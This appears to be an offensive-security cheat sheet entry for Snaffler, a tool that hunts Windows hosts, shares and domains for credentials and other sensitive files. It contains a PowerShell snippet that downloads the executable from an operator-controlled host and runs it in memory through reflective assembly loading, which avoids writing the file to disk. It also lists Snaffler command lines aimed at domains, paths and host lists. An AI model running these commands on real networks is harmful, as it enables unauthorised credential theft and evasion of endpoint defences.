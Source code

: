 # Snaffler

% snaffler, password hunting
#plateform/windows #target/local #cat/CREDENTIAL-ACCESS/CREDS_HUNT #tag/snaffler 



## assembly reflection
#cat/UTILS 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<local_ip>:<port|80>/<dl_snaffler_path>Snaffler.exe')
$asm = [System.Reflection.Assembly]::Load($data);
$vars = New-Object System.Collections.Generic.List[System.Object];
$vars.Add("-s");
$vars.Add("-i");
$vars.Add("c:\");
$vars.Add("-v");
$vars.Add("data");
$passed = [string[]]$vars.ToArray();
$asm.EntryPoint.Invoke($null, @(,$passed))
```
= dl_snaffler_path: windows/NetFramework_4.7_x64/

## Snaffler - full 
```
.\snaffler.exe -s -o snaffler.loga -v data
```

## Snaffler - domain 
```
.\snaffler.exe -d <domain_fqdn> -s -o snaffler.loga -v data
```

## Snaffler - path 
```
.\snaffler.exe -i <path|"c:\"> -s -o snaffler.log -v data
```

## Snaffler - hosts 
```
.\Snaffler.exe -n <host_list_comma_sep> -s -o snaffler.log -v data
```



